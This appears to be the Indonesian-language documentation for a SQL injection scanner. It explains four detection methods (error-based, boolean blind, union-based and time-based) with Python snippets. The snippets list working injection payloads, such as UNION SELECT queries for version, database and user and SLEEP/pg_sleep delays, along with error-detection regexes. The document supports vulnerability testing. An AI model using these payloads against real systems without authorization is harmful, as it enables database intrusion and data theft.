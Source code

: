 #### Detection Methods
Scanner SQL injection menggunakan 4 metode deteksi utama:

##### 1. Error-based Detection
Mendeteksi SQL syntax errors dalam response:
```python
# Contoh payload error-based
payloads = [
    "'",                    # Single quote untuk trigger syntax error
    '"',                    # Double quote untuk trigger syntax error
    "1' OR '1'='1",        # Boolean injection
]

# Pattern error yang dideteksi
error_patterns = [
    r"SQL syntax.*error",
    r"mysqli_sql_exception",
    r"You have an error in your SQL syntax",
    r"Warning: mysql_",
    r"mysql_fetch_array"
]
```

##### 2. Boolean-based Blind Injection
Menganalisis perbedaan response untuk kondisi true/false:
```python
# Payload boolean-based
true_payload = "1' OR '1'='1"   # Kondisi selalu true
false_payload = "1' AND '1'='2" # Kondisi selalu false

# Analisis response length dan content
if true_response_length > baseline_length * 1.5:
    # Kemungkinan vulnerable
    confidence = 0.8
```

##### 3. Union-based Injection
Mendeteksi kemampuan ekstraksi data menggunakan UNION SELECT:
```python
# Payload union-based
union_payloads = [
    "1' UNION SELECT null,version()--",
    "1' UNION SELECT null,database()--",
    "1' UNION SELECT null,user()--"
]

# Deteksi data extraction
if 'mysql' in response.text.lower() or 'version' in response.text.lower():
    vulnerability_detected = True
    confidence = 0.9
```

##### 4. Time-based Blind Injection
Mengukur response time untuk mendeteksi time delays:
```python
# Payload time-based
time_payloads = [
    "1' AND SLEEP(5)--",           # MySQL
    "1'; SELECT pg_sleep(5)--"     # PostgreSQL
]

# Analisis response time
if malicious_time - baseline_time > 4.0:  # 5 detik - tolerance
    vulnerability_detected = True
    confidence = 0.9
```
